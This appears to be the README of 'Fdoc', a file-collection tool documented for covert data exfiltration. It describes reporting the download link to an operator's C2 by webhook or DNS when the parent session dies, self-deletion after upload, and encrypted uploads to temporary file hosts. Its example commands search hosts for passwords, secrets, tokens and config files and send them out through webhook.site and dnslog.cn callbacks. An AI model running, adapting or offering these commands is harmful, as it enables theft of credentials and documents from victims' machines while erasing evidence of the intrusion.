


# Fdoc

File collection utility: filter files on a host and pack them into `.tgz` (tar.gz).

> 中文文档：[README.zh-CN.md](README.zh-CN.md)

Optional `-upload` embeds the companion `uploader` tool (auto backend by archive size). Without `-webhook`/`-dns`, the download URL is printed locally (stdout). With `-webhook`/`-dns`, the link is also pushed back via failover callback even if the parent C2 session dies. Without `-upload`, packing stays local and does not open network connections.

Static binaries for Linux, Windows, and macOS.

## Features

- Filter by extension / filename / content keyword / modification date
- Filters combine with **AND**; values inside `-e` / `-f` / `-k` use **OR**
- Default `-e documents` (safer than matching every file)
- Cap total matched logical size (`-max`, default 1GB) with **best-effort** packing
- Skip oversized single files (`-max-file`, default 100MB; `0` disables)
- Skip noisy directories by default (OS-specific); override with `-x`
- Stream while walking (no collect-then-compress memory spike)
- `-size` measures only (disk + logical) and respects `-max` / `-max-file`
- `-q` quiet / `-v` verbose
- `-upload`: auto-select temp host by archive size; print link locally (or remote callback if configured)
- `-webhook` / `-dns`: optional HTTPS JSON + DNSLog failover (not dual-send)
- `-scrub`: after successful upload (+ callback if configured), delete archive and self binary
- `-encrypt`: encrypt stream before upload (requires `-upload` + `-key`)

> File symlinks are followed (target content packed under the link name). Directory symlinks are not entered. Windows `.lnk` shortcuts are not resolved—treated as regular files if `-e` matches.

## Flow

### Overview



### Per-file filter

Unset filters are treated as pass. Conditions combine with **AND**; comma lists inside one flag are **OR**.



Defaults: `-e documents`; OS-specific `-x`. Hitting `-max` keeps the partial archive (exit 2).

## Usage

```text
  -d string       root path to scan (default: user home)
  -e string       extension filter (default: documents)
                  presets: documents, all (common docs+archives+txt; NOT every file),
                           archives|packages, images, videos, any (no ext filter)
  -f string       fuzzy filename match, comma-separated (OR); AND with other filters
  -k, -keyword    content keywords, comma-separated (OR); prefer -keyword (-k ≠ -key)
                  (skips binary; scans up to 8MB per file)
  -max string     max total LOGICAL size of matched files (default 1GB);
                  packing stops at the limit and KEEPS the partial archive (exit 2)
  -max-file string
                  skip a single file larger than this logical size (default 100MB; 0=off)
  -o string       output path (default output_<timestamp>.tgz)
  -size           measure matched size only; does not pack; respects -max/-max-file
  -t string       only files modified on/after this local date, e.g. 2023-10-01
  -x string       comma-separated directories to skip (replaces defaults if set)
  -q              quiet mode
  -v              verbose (matched paths + per-backend probe OK/FAIL)

  -upload         after packing, upload archive (auto backend); local link echo unless -webhook/-dns
  -b string       pin upload backend (default: auto; list with: Fdoc backends)
  -force          overwrite existing -o; also allow flaky/down upload backends
  -progress-interval float
                  minutes between upload/encrypt progress lines when no bar (default 0.5=30s; 0=off)
  -webhook string optional HTTPS callback URL (POST JSON)
  -dns string     optional DNSLog base (failover if webhook fails/unset)
  -task-id string task id in callback (auto-generated if empty; with -webhook/-dns)
  -cb-timeout float
                  webhook timeout / DNS budget seconds (default 15)
  -scrub          after successful upload (+ callback if any), delete archive and self
  -encrypt        encrypt stream before upload (requires -upload and -key)
  -key string     encryption key for -encrypt (not the same as -k/-keyword)
```

Subcommands: `Fdoc backends`, `Fdoc decrypt …`.

### Upload + callback

Flow: pack → auto upload by archive size → **local link echo** and/or **failover callback** → optional `-scrub`.

- **No `-webhook` / `-dns`**: print `UPLOAD_OK ...` on stderr and the bare download URL on stdout (script-friendly).
- **With `-webhook` / `-dns`**: failover callback (HTTPS webhook first; DNS only if webhook fails or is unset). Not dual-send. Bare URL is still echoed on **stderr** for local recovery.
- Without `-q`, stderr also shows brief `auto: probing…` / `auto: using …` (use `-v` for per-backend OK/FAIL).

`-webhook` example values:

- `https://webhook.site/<uuid>` (quick test)
- `https://your-vps.example.com/fdoc/hook` (your receiver)

`-dns` example values:

- `xxx.dnslog.cn` / `yyy.ceye.io` / self-hosted `cb.example.com`

Webhook body (`Content-Type: application/json`):

```json
{
  "task_id": "op42",
  "host": "HOSTNAME",
  "url": "https://temp.sh/....",
  "backend": "temp",
  "archive": "x.tgz",
  "size": 1234567,
  "files": 42,
  "truncated": false,
  "ts": 1710000000
}
```

`archive` is the **basename** only (no absolute path). `host` has `|` stripped so DNS wire format stays unambiguous.

DNS failover queries (best-effort):

```text
<seq>-<total>-<base32chunk>.<task_id>.<dns-base>
```

Payload decoded from base32 chunks is `task_id|host|url`.

#### Decode DNSLog lines

Paste DNSLog table rows (any base domain: `dnslog.cn`, `dnslog.pp.ua`, …) into the helper script:

```shell
# paste lines, then Ctrl-D
python3 scripts/dnslog_decode.py

# clipboard / file
pbpaste | python3 scripts/dnslog_decode.py
python3 scripts/dnslog_decode.py dnslog.txt

# print URL only
pbpaste | python3 scripts/dnslog_decode.py -q
```

Example input line:

```text
0-4-n5ydimt4....op42.ie0gyx.dnslog.cn	116.x.x.x	2026-07-20 10:05:00
```

Requires all chunks `0`..`total-1` for the same `task_id`. Missing a chunk exits with an error.

Runtime DNS callback also requires **every** chunk query to leave the host (NXDOMAIN counts; per-chunk timeout does not). Partial DNS success is treated as callback failure. `-cb-timeout` is both the webhook timeout and the **total DNS exfil budget**.

**Scrub trust model**: `-scrub` runs after a successful upload; if `-webhook`/`-dns` were set, also requires a successful callback (webhook 2xx **or** all DNS chunk queries sent). That does **not** verify your receiver stored the URL. Prefer webhook for C2-independent recovery; be cautious with DNS-only + `-scrub`.

**Windows scrub**: archive delete is best-effort as usual. Self-delete tries (1) immediate remove, (2) rename + `MoveFileEx` reboot delete (often needs admin), then (3) a short delayed `cmd` delete under `%TEMP%` (no admin). If all fail, stderr shows `SCRUB_PARTIAL`. Non-admin runs usually still remove the archive; binary cleanup is best-effort.

`-scrub` / `-encrypt` require `-upload`. `-webhook` must be `https://` (or `http://` to loopback for local tests). Omit `-scrub` to keep the archive and binary.

On Unix, `-upload` ignores `SIGHUP` so a dead parent session is less likely to kill the process mid-flight.

### Encryption format & decrypt

`-upload -encrypt -key SECRET` uses the same format as uploader:

```text
[UP01 4-byte magic][random IV 16 bytes][AES-256-CBC ciphertext, PKCS7 padded]
```

- Key: PKCS7-pad `SECRET` to **32 bytes** → AES-256 key (not PBKDF2)
- Remote filename for encrypted uploads is `*.bin` (not a fake `*.tgz`) so hosts accept it and operators don't gunzip by mistake. Never uses `.encrypt` (tmpfiles rejects it)
- On success stderr shows `ENCRYPT_OK plain=… cipher=… encrypted=1 decrypt_first=1 remote=….bin …` — **always run `Fdoc decrypt` before** `tar` / `gunzip`
- `UPLOAD_OK` also includes `encrypted=1 decrypt_first=1` when `-encrypt` was used
- Check with `xxd`: header should be `55 50 30 31` (`UP01`); `1f 8b` means plaintext gzip (not encrypted)
- Downloaded size should match `ENCRYPT_OK cipher=`
- **Disk**: `-encrypt` writes a temporary ciphertext beside the archive (same directory, not `/tmp`), so you need about **1× archive size** free on that volume for the duration of the upload. If that directory is not writable, it falls back to `TempDir` (may be tmpfs — watch RAM). `Fdoc decrypt` writes the full plaintext output (another ~1×) and streams decryption (no multi-GB RAM spike). `-q` only silences human logs; machine lines (`UPLOAD_OK` / `ENCRYPT_OK` / `DECRYPT_OK` / `PACK_PROGRESS` / `UPLOAD_PROGRESS`) still print. Without `-q`, upload prints brief `auto: probing…` / `auto: using …` stage lines; `-v` adds per-backend probe OK/FAIL. Default `-progress-interval` is **0.5 minutes (30s)**.

Decrypt with Fdoc (required before treating the download as an archive; no uploader binary needed):

```shell
Fdoc decrypt -key 'SECRET' -o recovered.tgz downloaded.bin
# default -o: name.tgz; if input is already *.tgz → name.dec.tgz (never overwrites input)
# use -force to overwrite an existing output
tar -tzf recovered.tgz
```

Compatible with `uploader decrypt -k 'SECRET' -o recovered.tgz downloaded.tgz`.

### Filter logic

| Expression | Meaning |
|------------|---------|
| `-e pdf -f secret` | pdf **and** filename contains secret |
| `-k password:,token:` | content contains password: **or** token: |
| `-e any` | no extension restriction (still AND with `-f`/`-k`/`-t` if set) |
| `-e all` | common docs + archives + txt only — **not** “all files on disk” |

### Extension presets

| Preset | Includes |
|--------|----------|
| `documents` (default) | pdf/doc/xls/ppt/csv |
| `all` | common docs + archives + txt |
| `archives` / `packages` | zip/rar/7z/tar/gz |
| `images` | jpg/png/gif/bmp |
| `videos` | mp4/mkv/avi/mov |
| `any` | no extension filter |

### Size semantics

| Flag | Uses | Behavior |
|------|------|----------|
| `-size` | disk + logical | Report both; stop early if `-max` would be exceeded |
| `-max` | **logical** cumulative | Archive write budget; truncate keep partial |
| `-max-file` | **logical** per file | Skip file and continue |

Exit codes: `0` ok, `1` error (including invalid `-max`/`-t` / upload/callback failure), `2` truncated at `-max` (still may upload when `-upload` is set).

### Examples

```shell
# 1) Probe size, then pack
Fdoc -d /data/docs -e documents -size
Fdoc -d /data/docs -e documents -max 500MB -o docs.tgz

# 2) Default home documents, quiet
Fdoc -q -o docs.tgz

# 3) Filename / keyword hits
Fdoc -d /data -f password,secret -e any -o hits.tgz
Fdoc -d /data -e txt,ini,conf -k token:,password: -o hits.tgz

# 4) Recent files
Fdoc -d /data -e documents -t 2024-01-01 -o recent.tgz

# 5) Broader types / no extension filter
Fdoc -e all -size
Fdoc -e any -f config -max-file 0 -o cfg.tgz

# 6) Pack → upload (local echo) or remote callback → scrub
Fdoc -d /data -e documents -o /tmp/x.tgz -upload -q
Fdoc -d /data -e documents -o /tmp/x.tgz -upload \
  -webhook https://webhook.site/<uuid> \
  -dns xxx.dnslog.cn \
  -task-id op42 -scrub -q

# 7) Windows (cmd / PowerShell; prefer UTF-8 console for non-ASCII paths)
# Default -d is %%USERPROFILE%%; default -x skips AppData caches under home.
Fdoc.exe -d %USERPROFILE%\Documents -e documents -o %TEMP%\docs.tgz
Fdoc.exe -d %USERPROFILE% -o %TEMP%\home.tgz -upload -q
# Whole-drive scan: pass system dirs yourself, e.g.
#   -x "C:\Windows,C:\Program Files,C:\Program Files (x86)"

# Decrypt a downloaded ciphertext
Fdoc decrypt -key 'secret' -o /tmp/recovered.tgz ~/Downloads/xxx.bin
```

Run `Fdoc -h` for the same recipes inline with flag details.

## Build

`uploader` is embedded via `replace uploader => ./third_party/uploader` (see `go.mod`). To hack against a live checkout, point `replace` at that path and re-run `go mod tidy`. Sync notes: [`third_party/README.md`](third_party/README.md).

```shell
go mod tidy
CGO_ENABLED=0 go build -trimpath -ldflags='-s -w' -o Fdoc .

make setup build-linux build-windows build-osx

go test ./...
```

## Smoke / regression

```shell
bash scripts/smoke_regress.sh           # offline pack + flags + DNS decode
ONLINE=1 bash scripts/smoke_regress.sh  # also real upload + local webhook
```

## Layout

```text
main.go              entrypoint
option/              CLI flags
pkg/                 walk / filter / pack / sighup
pkg/compress/        tar.gz writer
pkg/upload/          uploader route wrapper
pkg/callback/        webhook + DNS callback
pkg/decrypt/         decrypt subcommand (UP01 AES-CBC)
pkg/scrub/           optional artifact cleanup
scripts/             dnslog_decode.py, smoke_regress.sh
third_party/uploader embedded uploader module (replace target)
logx/                lightweight logging
utils/               helpers
```

## License

MIT (see LICENSE).
